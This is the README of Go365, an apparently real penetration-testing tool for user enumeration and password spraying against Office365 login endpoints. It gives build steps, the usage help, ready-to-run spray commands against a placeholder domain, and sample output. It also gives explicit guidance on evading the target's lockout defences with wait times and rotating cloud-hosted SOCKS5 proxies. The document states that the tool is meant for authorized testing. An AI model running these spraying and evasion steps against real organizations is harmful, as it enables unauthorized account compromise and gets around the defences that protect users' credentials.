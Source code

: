 # Go365

**This tool is still in development. Please read all of this README before using Go365!**

Go365 is a tool designed to perform user enumeration and password guessing attacks on organizations that use Office365 (now/soon Microsoft365). Go365 uses a unique SOAP API endpoint on login.microsoftonline.com that most other tools do not use. When queried with an email address and password, the endpoint responds with an Azure AD Authentication and Authorization code. This code is then processed by Go365 and the result is printed to screen or an output file.


##### Read these three bullets!
- This tool might not work on **all** domains that utilize o365. Tests show that it works with most federated domains. Some domains will only report valid users even if a valid password is also provided. Your results may vary!
- The domains this tool was tested on showed that it did not actually lock out accounts after multiple password failures. Your results may vary!
- This tool is intended to be used by security professionals that are authorized to "attack" the target organization's o365 instance.


## Obtaining

#### Option 1
Download a pre-compiled binary for your OS [HERE](https://github.com/optiv/Go365/releases).

#### Option 2
Download the source and compile locally.
1. Install Go.
2. Go get some packages:
```
go get github.com/beevik/etree
go get github.com/fatih/color
go get golang.org/x/net/proxy
  ```
3. Clone the repo.
4. Navigate to the repo and compile ya dingus.

```
go build Go365.go
```
5. Run the resulting binary and enjoy :)


## Usage
``` 
$ go run ./Go365.go -h

  ██████         ██████   ██████  ██████
 ██                   ██ ██       ██
 ██  ███   ████   █████  ███████  ██████
 ██    ██ ██  ██      ██ ██    ██      ██
  ██████   ████  ██████   ██████  ██████

 Version: 0.1
 Authors: h0useh3ad, paveway3, S4R1N

 This tool is currently in development.

 Usage:
     ./Go365 -ul <userlist> -p <password> -d <domain> [OPTIONS]
 Options:
     -h,            Show this stuff

   Required:
     -ul <file>             Username list to use
                              - file should contain one username per line WITHOUT "@domain.com"
                              (-ul ./usernamelist.txt)
     -p <string>            Password to attempt
                              - enclose in single quotes if it contains special characters
                              (-p password123  OR  -p 'p@s$w0|2d')
     -d <string>            Domain to test
                              (-d testdomain.com)

   Opions:
     -w <int>              Time to wait between attepmts in seconds.
                              - Default: 1 second. 5 seconds recommended.
                              (-w 10)
     -o <string>           Output file to write to
                              - Will overwrite!
                              (-o ./output.out)
     -proxy <string>       Single proxy server to use
                              - IP address and Port separated by a ":"
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxy 127.0.0.1:1080)
     -proxyfile <string>    A file with a list of proxy servers to use
                              - IP address and Port separated by a ":" on each line
                              - Randomly selects a proxy server to use before each request
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxyfile ./proxyfile.txt)

 Examples:
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxy 127.0.0.1:1080
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxyfile ./proxyfile.txt

```



### Examples
_no u_




## Account Locked Out! (Domain Defenses)

**protip:** _You probably aren't **actually** locking out acocunts._

After a number of queries against a target domain, results might start reporting that accounts are locked out.

Once this defense is triggered, **user enumeration becomes unreliable since requests for valid and invalid users will randomly report that their accounts have been locked out**.
```
...
[-] User not found: test.user90@pwnthisfakedomain.com
[-] User not found: test.user91@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user92@pwnthisfakedomain.com
[!] Account Locked Out: real.user1@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user93@pwnthisfakedomain.com
[!] Account Locked Out: valid.user94@pwnthisfakedomain.com
[!] Account Locked Out: jane.smith@pwnthisfakedomain.com
[-] Valid user, but invalid password: real.user95@pwnthisfakedomain.com
[-] Valid user, but invalid password: fake.user96@pwnthisfakedomain.com
[!] Account Locked Out: valid.smith@pwnthisfakedomain.com
...
```


This is a defensive mechanism triggered by the number of **valid** user queries against the target domain within a certain period of **time**. The number of attempts and the period of time will vary depending on the target domain since the thresholds can be customized by the target organization.


### Countering Defenses
The defensive mechanism is **time** and **IP address** based. Go365 provides options to include a wait time between requests and proxy options to distribute the source of the requests. To circumvent the defensive mechanisms on your target domain, use a long wait time and multiple proxy servers.

A wait time of AT LEAST 15 seconds is recommended. ``` -w 15```

If you still get "account locked out" responses, start proxying your requests. Proxy options have only been tested on SSH SOCKS5 dynamic proxies (```ssh -D <port> user@proxyserver```)

Create a bunch of SOCKS5 proxies on DO or AWS or Vultr or whatever and make a file that looks like this:
```
127.0.0.1:8081
127.0.0.1:8082
127.0.0.1:8083
127.0.0.1:8084
127.0.0.1:8085
127.0.0.1:8086
...
```
The tool will randomly iterate through the provided proxy servers and wait for the specified amount of time between requests.

 ```-w 15 -proxyfile ./proxies.txt```
